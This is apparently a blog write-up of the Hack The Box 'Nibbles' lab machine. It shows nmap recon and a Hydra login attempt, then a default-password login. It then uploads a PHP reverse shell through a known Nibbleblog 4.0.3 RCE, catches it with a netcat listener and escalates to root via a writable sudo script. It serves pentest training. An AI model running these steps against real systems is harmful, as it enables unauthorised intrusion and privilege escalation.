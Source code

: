 ```yaml
---
title: 'Nibbles Writeup'
date: 2018-03-08
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coverImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup of the Hack the box Nibbles box... Nibble nibble!"
---
```

Connecting to Hack the Box[^1] using the supplied VPN, my Nibbles box have the IP: 10.10.10.75
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn't show anything revealing.
```
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Seeing that we have a new directory to explore, lets go to /nibbleblog/.
![nibblesblog-root](/img/posts/2018/03/nibbles-writeup/nibblesblog-root.png)
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.
A bit of googling points me to the github https://github.com/dignajar/nibbleblog
Where the basefile "admin.php" looks interesting, and sure enough it does exist on our target.
![nibblesblog-admin](/img/posts/2018/03/nibbles-writeup/nibblesblog-admin.png)
The next interesting file from the github looks to be "install.php", on our target blog it is obviously already installed, nontheless it might be worth checking out!
![nibblesblog-install](/img/posts/2018/03/nibbles-writeup/nibblesblog-install.png)
Lets follow the update link to the update page!
![nibblesblog-update](/img/posts/2018/03/nibbles-writeup/nibblesblog-update.png)
So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to /nibbleblog/content/private/config.xml
```
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
```
So this time the config file does not reveal any passwords, although we're not emptyhanded as we do get a valid username "admin".
After some further enumeration i could not find a hint towards a password or any other vulnerability to use. So i resulted in trying THC-Hydra[^2] and a small passwordlist in an attempt to run a dictionary against the login page!
Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.
![nibblesblog-login-blacklist](/img/posts/2018/03/nibbles-writeup/nibblesblog-login-blacklist.png)
Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords.
Bingo, user: Admin, Password: nibbles so a weak password indeed.
Doing a grep for the password "nibbles" in the standard "rockyou.txt" that is included in Kali linux.
```
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
```
We can see that doing the hydra would indeed work... eventually, you'd just have to do some timeouts between attempts.
Either way, we have the password and is logged in to the CMS admin panel!
![nibblesblog-logged-in](/img/posts/2018/03/nibbles-writeup/nibblesblog-logged-in.png)
Next up would be to try and get a shell on the system somehow, so back to google!
It eventually pointed me to another security researchers blog [CureSec Nibbleblog 4.0.3 RCE](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)[^3]
The PoC Exploit work in 4 steps
```
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```
So since we are already logged in, we can go to step two and activate the "My Image Plugin" under Plugins in the CMS Admin Panel.
Then lets create and upload a php reverse shell.
My favourite php-reverse-shell is included in kali, that pentestmonkey created.
Copy that to the working directory by issuing.
```
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the "image.php" is in a public folder.
```
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```
That should kick of a basic shell created by the PHP script to the Netcat listener.
Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.
```
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:55:01 up 4 days,  6:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"  
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal  personal.zip  user.txt
nibbler@Nibbles:/$
```
Since i am a Python guy, that's a quite an easy choice.
Now that we have the "user.txt" flag, lets get root!
One easy command to run is "sudo -l", which will report if the current user is in the /etc/sudoers file, as well list what commands the current user is allowed to run.
```
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
```
Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run "/home/nibbler/personal/stuff/monitor.sh" as root without a password!
At this point getting the root flag should be fairly simple!
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
```
Done.

[^1]: [ www.hackthebox.eu]( www.hackthebox.eu)
[^2]: https://tools.kali.org/password-attacks/hydra
[^3]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
